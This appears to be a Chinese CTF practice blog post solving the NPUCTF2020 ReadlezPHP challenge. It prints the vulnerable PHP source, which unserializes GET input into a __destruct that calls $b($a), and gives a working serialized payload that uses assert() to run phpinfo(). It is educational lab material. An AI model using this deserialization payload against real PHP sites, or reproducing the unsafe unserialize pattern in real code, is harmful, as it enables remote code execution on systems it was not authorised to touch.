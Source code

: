 ```yaml
---

title: 日常练习25

date: 2021-04-29 21:12:10

tags: 练习

categories: test74

---
```

这道题也不是很难，算是一个新的小知识点。  

# [NPUCTF2020]ReadlezPHP  

打开题目，发现什么提示都没有，直接f12.  

[![](https://img.imgdb.cn/item/608abc78d1a9ae528f295897.png)](https://img.imgdb.cn/item/608abc78d1a9ae528f295897.png)  

发现有一个界面./time.php?source，访问一下看看：  

[![](https://img.imgdb.cn/item/608abcc2d1a9ae528f2d6a58.png)](https://img.imgdb.cn/item/608abcc2d1a9ae528f2d6a58.png)  

	<?php
	#error_reporting(0);
	class HelloPhp
	{
    public $a;
    public $b;
    public function __construct(){
        $this->a = "Y-m-d h:i:s";
        $this->b = "date";
    }
    public function __destruct(){
        $a = $this->a;
        $b = $this->b;
        echo $b($a);
    }
}
	$c = new HelloPhp;
	
	if(isset($_GET['source']))
	{
    highlight_file(__FILE__);
    die(0);
	}
	
	@$ppp = unserialize($_GET["data"]);

得到源码，很简单的反序列化题，有一个魔术方法__destruct()，它会在一个元素销毁或更改时执行，我们可以利用它构造我们想要的字符串，我们要利用的是**echo $b($a);**这句代码，一开始的想法很简单，直接让$b=system,$a='ls'来构造命令执行函数，但是这道题把命令执行函数过滤了，不能使用。  

这里就有一个小知识，关于php的缺陷函数。  

### Assert()函数  

assert()这个函数在php语言中是用来判断一个表达式是否成立。返回true or false;叫做php断言。  

	例如
	<?php
	$s = 123;
	assert("is_int($s)");
	?>

从这个例子可以看到字符串参数会被执行，这跟eval()类似。不过eval($code _str)只是执行符合php编码规范的$code _str。
assert的用法却更详细一点。  

而这个如果字符串为php代码，函数同样也会执行，同eval()一样，只不过eval()只执行符合标准的php代码。  

那么我们就可以使用这个函数来代替system().  

构造payload：  

	<?php
	class HelloPhp
	{
    public $a;
    public $b;
    public function __construct(){
        $this->a = "phpinfo()";
        $this->b = "assert";
    }
	} 
	$c=new HelloPhp;
	$x=serialize($c);
	echo $x;
	?>  

得到  

	O:8:"HelloPhp":2:{s:1:"a";s:9:"phpinfo()";s:1:"b";s:6:"assert";}  

传参给data变量然后get上传，发现成功执行phpinfo()。  

这道题目的flag就在phpinfo()信息中，不用ls，cat等命令。  

[![](https://img.imgdb.cn/item/608ac031d1a9ae528f5d51ff.png)](https://img.imgdb.cn/item/608ac031d1a9ae528f5d51ff.png)  

同样的，缺陷函数还有 Call _user _func()函数，它也可以执行php代码。  

# 小结  

这道题算是让我多了解关于php的一些同样可以执行php代码的函数，可以积累下来。  

相关博客：  

[assert函数_PHP函数缺陷详解](https://blog.csdn.net/weixin_39702483/article/details/111198275?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522161962566716780357223979%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fall.%2522%257D&request_id=161962566716780357223979&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~first_rank_v2~rank_v29-6-111198275.first_rank_v2_pc_rank_v29&utm_term=php+assert%28%29%E5%87%BD%E6%95%B0)